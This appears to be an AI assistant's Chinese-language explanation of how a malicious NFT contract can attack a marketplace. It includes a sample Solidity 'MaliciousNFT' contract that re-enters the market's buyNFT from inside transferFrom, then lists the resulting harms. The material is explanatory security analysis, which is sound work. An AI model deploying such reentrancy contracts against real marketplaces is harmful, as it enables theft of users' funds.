 让我详细分析如果上架恶意NFT合约会造成哪些严重问题。这是一个非常重要的安全话题。


[1 tool called]

## 恶意NFT合约攻击的详细分析

### 🚨 **1. 重入攻击（Reentrancy Attack）**

**攻击原理：**
恶意合约在`transferFrom`方法中回调市场合约，利用状态更新时机进行攻击。

**恶意合约示例：**
```solidity
contract MaliciousNFT {
    mapping(uint256 => address) public owners;
    address public market;
    bool public attacked = false;
    
    constructor(address _market) {
        market = _market;
    }
    
    function ownerOf(uint256 tokenId) external view returns (address) {
        return owners[tokenId];
    }
    
    function transferFrom(address from, address to, uint256 tokenId) external {
        // 模拟正常转移
        owners[tokenId] = to;
        
        // 恶意回调：尝试重复购买
        if (!attacked && to == market) {
            attacked = true;
            // 回调市场合约，尝试重复购买
            try IMarket(market).buyNFT{value: 1 ether}(address(this), tokenId) {
                // 攻击成功
            } catch {
                // 攻击失败，但已经造成状态混乱
            }
        }
    }
    
    // 实现其他必需的ERC721方法...
}
```

**危害：**
- 重复购买同一NFT
- 绕过价格检查
- 导致资金损失
- 合约状态不一致
